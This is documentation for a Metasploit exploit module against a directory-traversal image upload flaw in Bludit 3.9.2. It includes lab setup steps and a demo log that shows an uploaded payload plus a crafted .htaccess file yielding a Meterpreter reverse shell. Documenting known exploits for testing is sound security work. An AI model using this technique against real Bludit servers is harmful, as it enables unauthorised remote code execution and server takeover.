 # Bludit Directory Traversal Image File Upload Vulnerability

## Description

This module exploits a vulnerability in Bludit: A simple, fast, "secure", flat-file CMS. A vulnerability was found by [christasa](https://github.com/christasa) in the image uploading feature. A remote user could the uuid parameter in the upload feature in order to save a malicious payload anywhere onto the server, and then use a custom .htaccess file to bypass the file extension check, and finally get remote code execution.

## Setup

1. Set up a Ubuntu box with Apache, PHP, and MySQL.
2. Download: https://www.bludit.com/releases/bludit-3-9-2.zip
3. Follow the installation guide [here](https://docs.bludit.com/en/getting-started/installation-guide). Make sure your Apache server sets `AllowOverride All` in /etc/apache2/apache2.conf.

## Demo

```
msf5 exploit(linux/http/bludit_upload_images_exec) > check
[*] 172.16.135.162:80 - The service is running, but could not be validated.
msf5 exploit(linux/http/bludit_upload_images_exec) > run

[*] Started reverse TCP handler on 172.16.135.1:4444 
[+] Logged in as: admin
[*] Retrieving UUID...
[*] Uploading qGkVsmahdK.png...
[*] Uploading .htaccess...
[*] Executing qGkVsmahdK.png...
[*] Sending stage (38288 bytes) to 172.16.135.162
[*] Meterpreter session 1 opened (172.16.135.1:4444 -> 172.16.135.162:47086) at 2019-11-05 08:54:34 -0600
[+] Deleted .htaccess
```

